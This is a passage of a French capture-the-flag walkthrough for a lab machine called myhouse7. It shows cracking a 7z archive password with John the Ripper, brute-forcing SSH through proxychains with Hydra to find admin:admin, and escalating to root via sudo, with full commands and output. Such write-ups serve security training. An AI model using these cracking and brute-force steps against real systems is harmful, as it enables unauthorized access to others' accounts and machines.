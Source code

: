 Comme on s'en doutait l'archive 7z restante est protégée par mot de passe. J'utilise l'utilitaire 7z2john puis je casse en générant les mots de passe possibles à la volée :  

{% raw %}
```console
$ python3 -c 'for i in range(100): print("{{tryharder:" + str(i) + "}}")' | ./john --stdin /tmp/hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (7z, 7-Zip archive encryption [SHA256 128/128 AVX 4x AES])
Cost 1 (iteration count) is 524288 for all loaded hashes
Cost 2 (padding size) is 12 for all loaded hashes
Cost 3 (compression type) is 2 for all loaded hashes
Cost 4 (data length) is 68 for all loaded hashes
Will run 4 OpenMP threads
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
{{tryharder:77}} (moreinfo.7z)     
1g 0:00:00:03  0.3058g/s 24.46p/s 24.46c/s 24.46C/s {{tryharder:64}}..{{tryharder:79}}
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
{% endraw %}

We would have such a very good time
-----------------------------------

Pour terminer intéressons-nous au port SSH accessible uniquement depuis l'intérieur du réseau.  

```console
$ ./proxychains4 -q -f proxychains.conf hydra -e nsr -L /tmp/users.txt -P /tmp/pass.txt ssh://172.31.200.1/
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 153 login tries (l:9/p:17), ~10 tries per task
[DATA] attacking ssh://172.31.200.1:22/
[22][ssh] host: 172.31.200.1   login: admin   password: admin
1 of 1 target successfully completed, 1 valid password found
```

Et à partir de là :  

```console
$ sudo -l
sudo: unable to resolve host myhouse7
[sudo] password for admin: 
Matching Defaults entries for admin on myhouse7:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on myhouse7:
    (ALL) ALL

$ sudo su
sudo: unable to resolve host myhouse7
root@myhouse7:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```

